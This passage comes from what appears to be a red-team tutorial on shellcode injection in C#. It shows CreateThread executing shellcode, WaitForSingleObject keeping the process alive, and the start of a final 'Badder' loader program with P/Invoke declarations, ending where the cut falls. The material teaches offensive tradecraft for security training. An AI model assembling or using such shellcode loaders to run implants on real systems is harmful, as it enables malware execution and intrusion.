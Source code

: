 5.  Now we can call **CreateThread** to execute this shellcode.
```cs
// Execute shellcode
var hThread = Win32.CreateThread(
    IntPtr.Zero,
    0,
    baseAddress,
    IntPtr.Zero,
    0,
    out _);
```

6.  CreateThread is not a blocking call, so to prevent the process from exiting we can wait on this thread.  **WaitForSingleObject** will block for as long as the thread is running.
```cs
// Wait infinitely on this thread to stop the process exiting
Win32.WaitForSingleObject(hThread, 0xFFFFFFFF);
```

You should now have a beacon running inside the injector.
![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/createthread/beacon.png)

# Final Code

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net.Http;

namespace Badder
{
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(
            IntPtr lpAddress,
            uint dwSize,
            AllocationType flAllocationType,
            MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(
            IntPtr lpAddress,
            uint dwSize,
            MemoryProtection flNewProtect,
            out MemoryProtection lpflOldProtect);

        [DllImport("kernel32.dll")]
        public static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);
```